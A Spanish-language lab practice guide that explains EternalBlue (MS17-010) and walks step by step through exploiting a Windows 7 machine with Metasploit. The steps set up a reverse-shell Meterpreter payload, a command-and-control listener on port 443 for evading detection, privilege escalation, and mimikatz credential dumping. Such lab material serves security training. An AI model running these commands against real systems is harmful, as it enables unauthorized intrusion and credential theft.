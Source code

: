 # Práctica 03: Explotación de EternalBlue y Configuración del Servidor C2
## ✅ 1️⃣ Documentación sobre EternalBlue (MS17-010)
### 📌 ¿Qué es EternalBlue?
EternalBlue es una vulnerabilidad en el protocolo SMBv1 de Windows que permite la ejecución remota de código sin autenticación.
Fue descubierta por la NSA y filtrada por el grupo Shadow Brokers en 2017.
Permite comprometer sistemas Windows sin necesidad de credenciales, si el puerto 445 está abierto.
Fue utilizada en ataques masivos como WannaCry y NotPetya.
### 📌 Impacto en Windows 7 SP1
Windows 7 SP1 es vulnerable si no tiene instalados los parches de seguridad de Microsoft.
Al explotarla con Metasploit, se obtiene acceso remoto con permisos de NT AUTHORITY\SYSTEM.
### 📌 Cómo se explota con Metasploit
Se usa el módulo exploit/windows/smb/ms17_010_eternalblue.
Se configura la dirección IP de la víctima.
Se lanza el exploit para obtener acceso con Meterpreter.
## ✅ 2️⃣ Explotación de la Vulnerabilidad en Windows 7 SP1
### 📌 Pasos en Kali Linux:
#### 1️⃣ Abrir Metasploit:

```bash
msfconsole
```
##### 2️⃣ Cargar el exploit de EternalBlue:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```
#### 3️⃣ Configurar los parámetros del exploit:

```bash
set RHOSTS 10.0.2.X    # IP de la máquina Windows 7
set LHOST 10.0.2.Y     # IP de Kali Linux
set LPORT 4444         # Puerto para recibir la conexión reversa
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
#### 4️⃣ Ejecutar el exploit:

```bash
exploit
```
#### 5️⃣ Si la explotación es exitosa, obtendrás una sesión de Meterpreter:

```bash
meterpreter>
```
#### 6️⃣ Escalar privilegios (si es necesario):

```bash
getsystem
```
## ✅ 3️⃣ Configuración del Servidor C2 en Metasploit
### 📌 Objetivo:
Configurar Metasploit para actuar como un servidor C2 (Command & Control) y gestionar sesiones de postexplotación.

Pasos:
#### 1️⃣ Iniciar Metasploit y configurar el handler:

```bash
msfconsole
```
#### 2️⃣ Cargar el módulo multi/handler:

```bash
use exploit/multi/handler
```
#### 3️⃣ Configurar el payload:

```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.2.Y     # IP de Kali Linux
set LPORT 443         # Puerto de escucha (usar 443 para evadir detección)
```
#### 4️⃣ Iniciar el listener:

```bash
exploit -j
```
🔹 Ahora el servidor C2 está esperando conexiones entrantes.

## ✅ 4️⃣ Validación de Acceso a la Máquina Comprometida
Desde la sesión de Meterpreter:
#### 1️⃣ Verificar conexión:

```bash
sysinfo   # Muestra información del sistema víctima
```
#### 2️⃣ Listar procesos activos:

```bash
ps
```
#### 3️⃣ Capturar credenciales en memoria:

```bash
mimikatz
```
#### 4️⃣ Abrir una shell en Windows:

```bash
shell
```
#### 5️⃣ Moverse entre sesiones activas:

```bash
sessions -l
sessions -i [ID]
```